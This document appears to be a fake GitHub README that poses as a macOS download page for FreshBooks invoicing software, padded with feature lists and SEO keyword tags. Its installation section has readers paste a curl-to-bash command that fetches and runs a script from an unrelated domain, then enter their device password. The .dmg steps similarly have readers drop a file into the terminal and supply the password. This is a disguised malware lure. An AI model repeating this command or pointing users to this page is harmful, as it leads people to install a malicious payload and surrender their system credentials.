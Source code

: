 # 🧾 FreshBooks — Easy Invoicing and Accounting Software for macOS

FreshBooks is an intuitive cloud-based accounting and invoicing solution designed for macOS users. It helps small business owners and freelancers manage invoices, track time, and handle expenses with ease and professionalism.

## ✅ Download FreshBooks for macOS  
[![Download FreshBooks](https://img.shields.io/badge/Download-FreshBooks-blueviolet)](https://freshbooks-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is FreshBooks?

FreshBooks offers simple yet powerful tools for invoicing, expense tracking, and financial reporting on macOS. Its user-friendly interface and automation features make bookkeeping and client billing fast and efficient.

---

## ✨ Features

- 🧾 Create and send professional invoices  
- ⏱️ Track time spent on projects and bill clients accurately  
- 💳 Accept online payments with multiple gateways  
- 🖥️ Optimized for macOS with Retina display support  
- 🔄 Sync data across Mac, iPhone, and iPad  
- 📊 Generate detailed financial and tax reports  
- 📥 Automatic expense tracking and receipt capture  

---

## 💡 Why Use FreshBooks?

- ✅ Simplifies billing and bookkeeping for small businesses  
- 🚀 Saves time with automation and easy-to-use tools  
- 💼 Enhances professionalism with customizable invoices  
- 📱 Manage your business finances from any Apple device  
- 🤝 Integrates with popular payment and business apps  

---

[![Download FreshBooks](https://img.shields.io/badge/Download-FreshBooks-blueviolet)](https://freshbooks-mac-download.github.io/.github)

---

## 🖼️ Preview

![FreshBooks Screenshot 1](https://thewritelife.com/wp-content/uploads/2024/01/Freshbooks-Hacks_-6-Ways-to-Get-More-Out-of-This-Invoicing-Tool.jpg)  
![FreshBooks Screenshot 2](https://images.squarespace-cdn.com/content/5dc462aafe72563e84e0a77b/1584476994892-7THDRF1H5YLGG9GCCCI4/Freshbooks_1.png?format=1500w)

---

## 📌 Tags

freshbooks, freshbooks pricing, freshbooks accounting software, freshbooks invoice, freshbooks cost,  
fresh booking, fresh books price, freshbooks app, freshbooks bookkeeping, freshbooks accounting,  
my freshbooks, freshbooks software, freshbooks payments, freshbooks integrations, freshbooks demo,  
freshbooks time tracking, freshbooks alternative, freshbooks online, freshbooks discount, freshbooks download,  
fresh books accounting, freshbooks for small business, fresh books com, freshbooks bookkeeping software,  
my fresh books, freshbooks stripe, stripe and freshbooks, freshbooks barclays, barclays freshbooks,  
freshbooks ca, freshbooks mac, freshbooks mac download
